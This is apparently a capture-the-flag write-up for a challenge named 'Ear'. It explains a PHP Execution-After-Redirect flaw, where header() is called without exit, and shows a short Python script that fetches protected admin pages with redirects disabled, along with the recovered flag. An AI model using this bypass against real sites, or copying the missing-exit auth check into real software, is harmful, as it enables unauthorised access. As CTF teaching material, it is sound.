

## Ear👂  



The challenge webpage has an Execution-After-Redirect vuln, as after calling `header()` with `index.php`, it doesn't exit the PHP program immediately.  

```php
<?php
require_once 'config.php';

if (empty($_SESSION['username'])) {
    header('Location: index.php');
}
?>
<!doctype html>
<html>
<head><meta charset="utf-8"><title>Meow</title><head>
```

We can find an `/admin.php` endpoint and access it by blocking redirects.  

```python
import requests

url = "http://chal.thjcc.org:1234/"

res = requests.get(f'{url}/admin.php', allow_redirects=False)
```

`/admin.php` will reveal a bunch of endpoints, and we can access `system.php` with the technique above to get the flag.  

```html
<!doctype html>
<html>
<head><meta charset="utf-8"><title>Admin Panel</title></head>
<body>
<p>Admin Panel</p>
<p><a href="status.php">Status page</a></p>
<p><a href="image.php">Image</a></p>
<p><a href="system.php">Setting</a></p>
</body>
</html>
```

Flag: `THJCC{U_kNoW-HOw-t0_uSe-EaR}`